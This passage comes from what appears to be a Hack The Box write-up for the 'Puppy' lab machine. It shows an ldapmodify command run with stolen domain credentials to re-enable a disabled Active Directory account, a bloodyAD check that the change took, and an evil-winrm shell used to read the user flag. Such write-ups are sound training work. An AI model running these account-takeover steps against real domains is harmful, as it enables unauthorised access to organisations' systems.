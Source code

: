 We can enable the account using `ldapmodify`:

```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ cat modifly.ldify 
dn: CN=Adam D. Silver,CN=Users,DC=puppy,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 512
```

Then, run the following command:

```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ ldapmodify -x -D "ant.edwards@puppy.htb" -w 'Antman2025!' -H ldap://$IP -f modifly.ldify  
modifying entry "CN=Adam D. Silver,CN=Users,DC=puppy,DC=htb"
```

Now, the account is enabled:

```
bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip $IP get object 'CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB' --attr userAccountControl
```
```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip $IP get object 'CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB' --attr userAccountControl

distinguishedName: CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB
userAccountControl: NORMAL_ACCOUNT

```

## Initial Access

We access the machine via WinRM as `adam.silver` and read the user flag from the desktop.

```                                                                                                                                     
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ evil-winrm -i $IP -u adam.silver  -p NewPassword123
                                        
Evil-WinRM shell v3.7
.                                        
. 
. 
.
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> type ..\Desktop\user.txt
************9d1cbf36c18ffc6b68c65
*Evil-WinRM* PS C:\Users\adam.silver\Documents> 

```

Under `C:\Backups` there is a file named `site-backup-2024-12-30.zip`.
